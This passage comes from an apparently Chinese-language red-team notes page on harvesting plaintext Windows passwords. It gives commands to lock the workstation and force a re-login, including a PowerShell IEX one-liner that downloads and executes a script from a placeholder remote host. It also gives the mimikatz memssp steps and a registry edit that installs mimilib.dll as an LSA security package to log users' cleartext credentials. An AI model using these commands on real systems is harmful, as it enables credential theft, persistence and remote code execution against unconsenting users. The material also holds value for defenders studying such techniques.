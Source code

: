- cmd
    ```bash
    rundll32 user32.dll,LockWorkStation
    ```

- powershell
    ```powershell
    Function Lock-WorkStation
    {
    $signature = @"
    [DllImport("user32.dll", SetLastError = true)]
    public static extern bool LockWorkStation();
    "@
    $LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru
    $LockWorkStation::LockWorkStation() | Out-Null
    }
    Lock-WorkStation
    ```
    ```powershell
    powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://x.x.x.x/Lock-WorkStation.ps1');"
    ```

    重新读取，可读到明文密码。

## ssp

```bash
privilege::debug
misc::memssp
```
记录的结果在 `c:/windows/system32/mimilsa.log`

## dll

在 mimikatz 中有 32 和 64 两个版本，安装包里分别都带有不同位数的 mimilib.dll, 将对应版本的 dll 文件复制到 c:\windows\system32 下

将注册表中 Security Packages 的值设置为 mimilib.dll
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d mimilib.dll /f
```

等待系统重启后，在 c:\windows\system32 生成文件 kiwissp.log，记录当前用户的明文口令

---

# 离线抓取

**文章**
- [Win10及2012系统以后的明文抓取方式](https://www.anquanke.com/post/id/175364)
- [Mimikatz明文密码抓取](https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html)
- [mimikatz-抓取windows明文密码](http://rtshield.top/2019/09/02/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-%E6%8A%93%E5%8F%96windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81/)
- [利用Mimikatz提取虚拟机内存中的密码](https://www.freebuf.com/articles/system/44620.html)
